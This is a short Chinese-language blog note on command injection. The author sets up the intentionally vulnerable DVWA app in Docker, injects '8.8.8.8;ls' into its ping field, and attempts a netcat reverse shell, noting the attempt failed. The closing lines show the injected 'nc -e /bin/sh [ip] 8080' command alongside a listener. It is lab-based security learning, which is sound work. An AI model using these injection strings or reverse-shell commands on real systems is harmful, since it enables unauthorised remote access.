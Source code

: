 ```yaml
---
title: Command Injection 小記
date: 2020-12-07 23:27:34
tags:
categories: Linux
---
```


command injection 

平常沒什麼看過
今天程式做弱點掃描發現這個問題
程式call web service 掃出弱點
等等web service 怎麼掃出 command injection ，改不會是誤判了
本片重點在 command injection

<!--more-->

- [Metasploitable 學習筆記-DVWA Command injection 命令注入攻擊與 Reverse Shell | by Kuro Huang | 資安工作者的學習之路 | Medium](https://medium.com/blacksecurity/metasploitable-dvwa-command-injection-9c092e180d0)

裡面談到 reverse shell 也滿有趣的，本篇用 dvwa 試跑一次

- [資安這條路 07 - [Injection] Command injection - iT 邦幫忙::一起幫忙解決難題，拯救 IT 人的一天](https://ithelp.ithome.com.tw/articles/10242080)
- [那個夜裡的資安-22(Reverse Shell) - iT 邦幫忙::一起幫忙解決難題，拯救 IT 人的一天](https://ithelp.ithome.com.tw/articles/10221819)



## 安裝 dvwa

參考:
- [新手指南：DVWA-1.9全级别教程（完结篇，附实例）之XSS - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/123779.html)
- [新手指南：手把手教你如何搭建自己的渗透测试环境 - FreeBuf网络安全行业门户](https://www.freebuf.com/sectool/102661.html)

這邊使用 docker 安裝 dvwa

```bash
docker run --rm -it -p 80:80 vulnerables/web-dvwa
```

用在那一台(docker)，使用 localhost 才連的到
使用`http://localhost/setup.php`

按下去`Create / Reset database` 按鈕，會自動跳回登入頁面

>    Username: admin
>    Password: password

## Command injection

進到左邊的`Command injection`
輸入欄位`8.8.8.8;ls`做查詢，這樣就能看到 ls 也能被執行


## reverse shell (失敗)

### docker 測試環境沒有 netcat

docker 安裝 

```bash
docker exec -it 63 bash
# 63 試 container ID
apt update
apt install -y netcat 
```

得知測試環境 docker ip

```
docker inspect 63 | grep IP 
```

```
            "LinkLocalIPv6Address": "",
            "LinkLocalIPv6PrefixLen": 0,
            "SecondaryIPAddresses": null,
            "SecondaryIPv6Addresses": null,
            "GlobalIPv6Address": "",
            "GlobalIPv6PrefixLen": 0,
            "IPAddress": "172.17.0.2",
            "IPPrefixLen": 16,
            "IPv6Gateway": "",
                    "IPAMConfig": null,
                    "IPAddress": "172.17.0.2",
                    "IPPrefixLen": 16,
                    "IPv6Gateway": "",
                    "GlobalIPv6Address": "",
                    "GlobalIPv6PrefixLen": 0,
```

這邊我們看到 docker IP 為 `172.17.0.2`
不過這邊需要讓 docker 連我的本機 IP ，如: `192.168.1.1`

- [socat 實用網路工具 和 使用解析 unix socket 方法 | 程式狂想筆記](https://malagege.github.io/blog/2020/02/14/socat-%E5%AF%A6%E7%94%A8%E7%B6%B2%E8%B7%AF%E5%B7%A5%E5%85%B7-%E5%92%8C-%E4%BD%BF%E7%94%A8%E8%A7%A3%E6%9E%90-unix-socket-%E6%96%B9%E6%B3%95/)


nc 環境在docker 環境無法使用...
有空再研究，睡覺


    在Kali執行nc -vv -l -p 8080
    在網頁執行nc -e /bin/sh [ip] 8080
    執行指令

有空來測試[Vagrant box mmckinst/dvwa - Vagrant Cloud](https://app.vagrantup.com/mmckinst/boxes/dvwa)

## 
